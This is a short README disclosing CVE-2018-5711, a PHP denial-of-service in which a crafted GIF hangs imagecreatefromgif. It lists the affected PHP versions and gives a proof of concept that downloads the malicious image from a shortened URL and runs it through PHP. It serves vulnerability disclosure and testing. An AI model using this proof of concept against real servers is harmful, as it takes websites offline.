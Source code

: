# CVE-2018-5711 - Hanging Websites by a Harmful GIF

## Author : Orange Tsai 

## Affected 

* PHP 5<5.6.33
* PHP 7.0<7.0.27
* PHP 7.1<7.1.13
* PHP 7.2<7.2.1
## POC
```
$ curl -L https://git.io/vN0n4 | xxd -r > poc.gif
$ php -r 'imagecreatefromgif("poc.gif");'

  Infinite loop here...
```
## Reference
* http://blog.orange.tw/2018/01/php-cve-2018-5711-hanging-websites-by.html
